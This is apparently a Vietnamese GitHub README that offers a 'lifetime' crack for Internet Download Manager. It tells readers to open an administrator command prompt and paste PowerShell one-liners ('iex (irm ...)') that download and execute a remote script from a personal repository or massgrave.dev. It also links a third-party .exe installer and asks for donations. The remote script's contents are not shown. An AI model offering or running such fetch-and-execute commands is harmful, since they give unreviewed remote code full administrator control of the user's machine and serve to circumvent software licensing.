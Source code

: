 # Kích hoạt IDM vĩnh viễn (Active IDM lifetime)
### [Bấm vào đây để xem hoặc để bình luận](https://bsngchithanh.blogspot.com/2025/03/kich-hoat-idm-vinh-vien-active-idm.html)

QR ngân hàng nếu quí khách có lòng hảo tâm, ủng hộ người soạn cà phê ạ!

![image](https://github.com/user-attachments/assets/5eb77be1-b312-4d0c-a5c0-ebc451629ac2)

- Đầu tiên bạn download bản IDM dùng thử từ [trang chủ](https://www.internetdownloadmanager.com) hoặc [tại đây](https://raw.githubusercontent.com/bschithanh/nguon/main/idman642build27.exe) về cài đặt bình thường, cài xong tắt tất cả IDM đang chạy.
- Kích hoạt thông qua **Windows PowerShell** hoặc **cmd**
- Bạn chạy **cmd** bằng quyền **Run as Administrator** sau đó copy 1 trong 2 đoạn code sau đây dán vào và nhấn **Enter**
  
  ```php
  powershell iex (irm https://raw.githubusercontent.com/bschithanh/nguon/main/idm.ps1)
  ```

  Hoặc:

  ```php
  powershell iex (irm https://massgrave.dev/ias)
  ```
## Ảnh Demo

  ![image](https://github.com/user-attachments/assets/f1210d0a-4b8c-4bb2-a37a-80241ba65ed0)

  ![image](https://github.com/user-attachments/assets/36fc5e4e-3e1a-483b-a5ad-5cf58357cef8)

- Làm theo hướng dẫn của cửa sổ hiện lên là xong!
- Trường hợp bị bắt bản quyền thì active lại là Ok! Nếu mở lên vẫn còn thì bạn bấm Hủy bỏ và mở IDM lại.

- ![image](https://github.com/user-attachments/assets/488792df-22de-485c-a964-660c45df3867)
- ![image](https://github.com/user-attachments/assets/f74dfc13-1df3-4e2e-ad3f-54dd546938cb)
- Như hình trên là OK!
